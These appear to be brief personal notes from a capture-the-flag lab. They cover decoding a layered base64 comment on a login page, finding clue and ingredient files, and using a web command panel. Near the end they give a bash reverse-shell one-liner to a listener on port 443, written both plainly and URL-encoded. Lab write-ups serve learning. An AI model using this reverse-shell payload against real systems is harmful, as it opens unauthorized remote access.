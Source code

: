 
http://10.10.67.14/login.php
```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
VmpGU1NtVkdTWGxTYkdScFUwWktjRlZyVmt0VE1WWnhVMjA1VG1KSGVIbFhhMXBoVlZaV1ZVMUVhejA=
VjFSSmVGSXlSbGRpU0ZKcFVrVktTMVZxU205TmJHeHlXa1phVVZWVU1Eaz0
V1RJeFIyRldiSFJpUkVKS1VqSm9NbGxyWkZaUVVUMDk=
WTIxR2FWbHRiREJKUjJoMllrZFZQUT09
Y21GaVltbDBJR2h2YkdVPQ==
cmFiYml0IGhvbGU=
rabbit hole

http://10.10.67.14/clue.txt
```
Look around the file system for the other ingredient.
```

http://10.10.67.14/denied.php
![[Images/Pasted image 20240327230026.png]]


![[Images/Pasted image 20240327230216.png]]

cat Sup3rS3cretPickl3Ingred.txt
![[Images/Pasted image 20240327230458.png]]
more got the same
![[Images/Pasted image 20240328000519.png]]
mr. meeseek hair

sent this to burp

`bash -c "bash -i >& /dev/tcp/10.18.21.236/443 0>&1"`
url encoded: `bash+-c+"bash+-i+>%26+/dev/tcp/10.18.21.236/443+0>%261"&sub=Execute`

![[Images/Pasted image 20240403114131.png]]

